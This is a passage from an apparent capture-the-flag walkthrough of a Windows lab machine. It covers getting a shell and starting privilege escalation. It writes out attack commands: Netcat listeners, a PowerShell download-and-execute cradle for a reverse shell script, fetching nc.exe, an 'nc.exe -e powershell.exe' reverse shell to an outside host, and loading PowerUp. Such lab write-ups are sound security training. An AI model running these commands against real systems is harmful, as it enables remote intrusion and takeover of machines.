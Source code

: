 ```
$ nc -lvnp 4444
```
Within our exploit python file, we will change our command to the following, which will download and execute our reverse shell script.

```
command = "IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.15.50/mini-reverse.ps1')"
```

After running the RCE exploit, we can see that the box connects successfully to our HTTP server and our Netcat listener successfully connects. Let's not try to use Netcat upgrade our shell. We'll start another listener for this new session.

```
$ nc -lvnp 4445
```

We'll use our python exploit to quickly grab the `nc.exe` file as well.

```
command = "wget 'http://10.10.14.85/nc.exe' -outfile '/Users/Public/Documents/nc.exe'"
```

Within the dumb shell that we have from earlier, we'll run the following command, using Netcat to open a better shell.

```
> C:\Users\Public\Documents\nc.exe 10.10.15.50 4445 -e powershell.exe
```

Now, let's grab the user flag from the public user directory.

![](images/user-flag.png)

## Root Flag

Now, onto root. Let's get the [PowerUp script](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) from PowerSploit onto the box. This will allow us to enumerate any avenues to escalate our privileges.

First, we'll place the script into our web server directory and use our Powershell session to download it. Let's place it into `C:\Users\Public\Documents\` directory.

```
> invoke-webrequest -Uri http://10.10.15.50/PowerUp.ps1 -OutFile PowerUp.ps1
> Import-Module C:\Users\Public\Documents\powerup.ps1
```
